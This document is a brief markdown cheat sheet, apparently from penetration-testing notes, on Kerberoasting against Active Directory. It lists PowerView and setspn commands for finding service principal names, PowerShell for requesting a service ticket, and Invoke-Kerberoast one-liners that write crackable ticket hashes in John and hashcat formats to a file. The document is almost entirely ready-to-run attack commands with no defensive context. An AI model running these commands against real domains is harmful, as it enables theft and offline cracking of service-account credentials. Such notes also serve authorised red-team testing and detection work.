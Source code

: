 # Kerberoast

## Find SPN

### Powerview

```csharp
. .\powerview.ps1
Get-NetUser -SPN
```

### Powershell

```csharp
setspn -T domain -Q */*
```

## Request a TGS

### Powershell

```csharp
Add-Type -AssemblyName system.identitymodel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/lab.domain.local"
```

### Invoke-Kerberoast

```csharp
 Invoke-Kerberoast -OutputFormat John  -ErrorAction SilentlyContinue | ft -HideTableHeaders -AutoSize Hash | Out-File -Width 5000 -Encoding "UTF8" .\roast.txt
 Invoke-Kerberoast -OutputFormat hashcat  -ErrorAction SilentlyContinue | ft -HideTableHeaders -AutoSize Hash | Out-File -Width 5000 -Encoding "UTF8" .\roast.txt
```



